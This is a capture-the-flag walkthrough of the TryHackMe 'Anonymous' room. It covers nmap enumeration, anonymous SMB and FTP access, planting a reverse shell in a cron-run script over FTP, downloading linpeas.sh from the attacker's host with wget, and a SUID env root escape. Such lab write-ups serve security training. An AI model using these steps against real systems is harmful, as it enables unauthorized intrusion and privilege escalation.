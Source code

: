 ```yaml
---
description: Ftp, samba, anonymous login, linux privilege escalation
---
```


# 🎭 Anonymous / linux priv escalation

```javascript
"28.05.2024"
```

{% embed url="https://tryhackme.com/r/room/anonymous" %}
Link to CTF on TryHackMe
{% endembed %}

## Initial Enumeration

I will start with a basic Nmap scan, then move on to a more complex one with specified ports.

```bash
nmap target_ip
```

<figure><img src="../.gitbook/assets/Nmap scan report for 10.10.42.102.png" alt=""><figcaption></figcaption></figure>

The response indicates that File Transfer Protocol (FTP), Secure Shell (SSH), and Samba services are available with open ports accordingly. This information allows us to answer the first two questions on the TryHackMe (THM) page: "How many ports are open?" and "What service is running on port 21?"

{% hint style="success" %}
<mark style="color:green;">question #1, 2</mark> - quantity of open ports / service on port 21
{% endhint %}

### Finding the Share

Now, let's find the answer to the third question: "There's a share on the user's computer. What's it called?" To get this information, let's enumerate the found ports using basic scripts with the `-sC` flag.

```bash
nmap -sV -sC target_ip | tee init_scan
```

> _Note: We use the `tee` tool to save the output to the specified file._

<figure><img src="../.gitbook/assets/Pasted Graphic 1.png" alt=""><figcaption></figcaption></figure>

## Checking Samba and FTP Services

From the output, we see that Samba and FTP services allow anonymous login. So, I'll try to enumerate both, starting with SMB. For that, I'll use the `smbclient` tool with the `-N` flag for logging into public shares without a password, and the `-L` flag to list all available shares.

```bash
smbclient -N -L //10.10.42.102
```

<figure><img src="../.gitbook/assets/SMB Share Directory for Pics.png" alt=""><figcaption></figcaption></figure>

Here we go, the non-standard share is presented in the output. This is our answer for question number 3. Additionally, we can list its elements with further enumeration.

{% hint style="success" %}
<mark style="color:green;">question #3</mark> - user share
{% endhint %}

```bash
smbclient -N //10.10.42.102/pics
```

<figure><img src="../.gitbook/assets/to get a list of possible commands. (1).png" alt=""><figcaption></figcaption></figure>

We see two images in the `pics` share. Let's download them and scan for hidden binaries.

```bash
get image_name
```

<figure><img src="../.gitbook/assets/Pasted Graphic 5 (2).png" alt=""><figcaption></figcaption></figure>

## Enumerating FTP Service

Nothing interesting was found in the images, so let’s move back to the FTP service and enumerate it instead.

```bash
ftp target_ip
```

<figure><img src="../.gitbook/assets/-$ ftp 10.10.42.102.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/250 Directory successfully changed..png" alt=""><figcaption></figcaption></figure>

I landed in a directory with only one folder, 'scripts', which contains a few files that I can download and inspect on my machine.

<figure><img src="../.gitbook/assets/Pasted Graphic 9.png" alt=""><figcaption></figcaption></figure>

### Analyzing Script Files

The `to_do.txt` file wasn’t helpful, but `removed_files.log` and `clean.sh` have some interesting information. The `clean.sh` script looks for files in the `/tmp` directory. If it finds any, it deletes them and writes the date and name of the deleted files into the log file. If no files are found, it writes a 'nothing to delete' message in the log file. By analyzing the log file content, we see that there are no files to delete and the `clean.sh` script runs every few minutes. This means every command we include in that file will run accordingly. Let's use this to append a basic bash shell into it.

<figure><img src="../.gitbook/assets/Running.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Pasted Graphic 11 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Pasted Graphic 12 (1).png" alt=""><figcaption></figcaption></figure>

## Getting a Shell

I will write the shell command in the `shell.sh` file, start a listener on my system (using Metasploit's multi-handler), and use the append function of the FTP service to append my code to the target file `clean.sh`

<figure><img src="../.gitbook/assets/The listen port (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Connected to 10.10.42.102..png" alt=""><figcaption></figcaption></figure>

And we got the shell and the user flag. Now, let’s try to escalate our privileges to the root user. Starting with the basic `sudo -l` to list commands which we can run with the privileges of other users, without providing the password.

<figure><img src="../.gitbook/assets/homenamelessone.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/sudo no tty present and no askpass program specified.png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
<mark style="color:green;">user.txt</mark>
{% endhint %}

## Privilege Escalation

Unfortunately, the output shows that we can’t run sudo on this system without the user password. So, let's use some automated tools to find an escalation path faster and more easily. In our case, I will download `linpeas.sh` from my own system to the target machine.

```bash
python -m http.server

wget http://your_ip:8000/linpeas.sh
```

<figure><img src="../.gitbook/assets/Pasted Graphic 18 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/http10.9.230.148000linpeas.sh&#x27;.png" alt=""><figcaption></figcaption></figure>

Don’t forget to add execution privileges to the downloaded enumeration tool.

```bash
chmod +x linpeas.sh
./linpeas.sh
```

<figure><img src="../.gitbook/assets/namelessone@anonymous ~$ chmod +x linpeas.sh.png" alt=""><figcaption></figcaption></figure>

### Analyzing LinPEAS Output <a href="#analyzing-linpeas-output" id="analyzing-linpeas-output"></a>

In the LinPEAS output, we see a few interesting things:

1. Our user is part of the sudo and admin group.

<figure><img src="../.gitbook/assets/Pasted Graphic 21.png" alt=""><figcaption></figcaption></figure>

2. The cron job, which we have already used to get access to the shell on this system.

<figure><img src="../.gitbook/assets/file to introduce tasks to be run by cron..png" alt=""><figcaption></figcaption></figure>

3. A broken SUID of `/env`, which provides us with a 99% chance of escalating to the root user on this system.

<figure><img src="../.gitbook/assets/2018 usrbinenv.png" alt=""><figcaption></figcaption></figure>

### Getting Root Access <a href="#escalating-to-root" id="escalating-to-root"></a>

I will use a command from GTFOBins.

```
/env /bin/sh -p
```

<figure><img src="../.gitbook/assets/Sudo.png" alt=""><figcaption></figcaption></figure>

That worked just as I thought, and we got the root flag.

<figure><img src="../.gitbook/assets/cd usrbin.png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
<mark style="color:green;">root.txt</mark>
{% endhint %}
